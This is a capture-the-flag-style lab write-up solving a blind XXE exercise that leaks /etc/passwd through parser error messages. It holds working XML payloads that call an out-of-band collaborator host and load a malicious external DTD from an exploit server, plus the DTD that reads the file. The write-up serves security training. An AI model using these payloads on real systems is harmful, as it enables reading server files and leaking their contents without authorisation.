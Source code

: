 # Exploiting blind XXE to retrieve data via error messages
# Objective
This lab has a "Check stock" feature that parses XML input but does not display the result.\
To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.\
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format. Moreover application have `Submit feedback` feature. Data from client is send in `Content-Type: multipart/form-data;`.

|![](Images/image-19.png)|
|:--:| 
| *Check stock request* |
|![](Images/image-20.png)|
| *Submit feedback request* |

## Exploitation
### Verificationn of blind out-of-band XXE 
The XML parameter injection (out-of-band request) can be performed using the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<id>.oastify.com"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

|![](Images/image-21.png)|
|:--:| 
| *XXE injection - out-of-band request* |
|![](Images/image-22.png)|
| *XXE injection - out-of-band request* |

### Data exfiltration via blind XXE using malicious external DTD and error messages
Data exfiltration via blind XXE using malicious external DTD and error messages can be performed using the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://exploit-0a15001304dd16778030982e018300e5.exploit-server.net/malicious.dtd"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

Exploit server configuration:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

|![](Images/image-24.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-23.png)|
| *Blind XXE injection with malicious external DTD and error messages* |
